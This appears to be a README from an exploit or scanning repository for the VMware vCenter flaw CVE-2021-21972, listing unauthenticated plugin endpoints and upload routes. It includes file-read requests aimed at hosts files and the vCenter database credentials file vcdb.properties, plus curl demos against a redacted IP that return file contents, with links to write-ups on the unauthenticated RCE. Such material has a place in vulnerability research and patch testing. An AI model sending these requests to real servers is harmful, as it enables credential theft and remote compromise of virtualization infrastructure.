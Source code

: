 
- /vsphere-client/?csp
- /eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
- /eam/vib?id=/etc/hosts
- /eam/vibd?id=/etc/hosts
- /eam/vibd?id=C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\vcdb.properties
- /ui/vropspluginui/rest/services/checkmobregister
- /ui/vropspluginui/rest/services/uploadova
- /checkmobregister
- /updatetelemetryInfo
- /checkLicenseSuiteApi
- /checkVsanLicenseValidity
- /getvcdetails
- /getstatus
- /testvcconnection
- /testvropsconnection
- /dashboard
- /capacity
- /capacity/memory
- /capacity/cpu
- /capacity/storage
- /license/allLicenses
- /vcclusters
- /vccontention
- /vcclusteralerts
- /inventoryscoreboard
- /alerts
- /vropsURL
- /vcIP
- /serverguid
- /Isceienabled
- /alertdetails
- /vsanalertdetails
- /osdetails
- /vmdetails
- /drs
- 
- POST /vropsinstallation content-type=application/json; charset=UTF-8
- POST /uploadova
- POST /configurevrops content-type=application/json; charset=UTF-8
- 


### Demo
```
$ curl -ik https://10.x.y.z/vsphere-client/?csp
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=CB600A5211B6C4B056FAFCFB86DEBDC805C0; Path=/vsphere-client/; Secure; HttpOnly
X-UA-Compatible: IE=edge
X-Frame-Options: SAMEORIGIN
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 7650
Date: Wed, 24 Feb 2021 06:09:04 GMT


curl -ik https://10.x.y.z/eam/vib?id=C:\\Windows\\System32\\drivers\\etc\\hosts
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Date: Wed, 24 Feb 2021 05:55:37 GMT
Server: Apache

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
```


### Ref
- https://twitter.com/jas502n/status/1316992409088094209
- [CVE-2021-21972 Vmware vcenter未授权任意文件漏洞分析](https://www.cnblogs.com/potatsoSec/p/14444897.html)
- [Unauthorized RCE in VMware vCenter](https://swarm.ptsecurity.com/unauth-rce-vmware/)
